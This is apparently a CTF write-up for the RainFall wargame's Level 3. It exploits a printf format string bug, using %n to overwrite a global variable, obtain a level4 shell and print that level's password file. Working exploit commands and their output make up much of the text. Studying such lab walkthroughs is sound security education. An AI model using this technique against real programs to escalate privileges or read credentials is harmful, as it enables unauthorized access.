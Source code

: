 # Level 3

This program is vulnerable to format string since the printf function is used to print the buffer without specifying a format string. We can use the format string to overwrite the value of m to 64 and spawn a shell, we can use the %n format specifier, here is what it does according to the manual:

```
The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument. No argument is converted.
```

Basically, it means that %n will write the size of our input at the address pointed by %n

Let's find the address to the m variable:

```bash
level3@RainFall:~$ gdb -q level3 
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) p &m
$1 = (<data variable, no debug info> *) 0x804988c
(gdb) 
```

We have the address of the variable

```bash
level3@RainFall:~$ ./level3 
AAAA %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025
```

Now we can see that the buffer is the 4th argument on the stack, so we can use the %4$p format specifier to print the value of the buffer:


```bash
level3@RainFall:~$ ./level3 
AAAA %4$p
AAAA 0x41414141
```

Now we can use the `%n` format specifier to write the value 64 to the address of the `m` variable. To achieve this, we need to write 64 characters to the buffer first, using the format `AAAA%<value-4>x%7$n` (where `value-4` is the number of bytes already written, in this case 4 for "AAAA"). For example, `AAAA%96x%7$n` will write the value 100 at the address 0x41414141. This is because `%100x` will print the argument padded with 100 bytes (using spaces as padding).


```bash
level3@RainFall:~$ python2 -c "print '\x8c\x98\x04\x08' + '%60x' + '%4\$n'" > /tmp/exploit2
level3@RainFall:~$ cat /tmp/exploit2 - | ./level3 
�                                                         200
Wait what?!
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
cd /home/user/level4
cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```


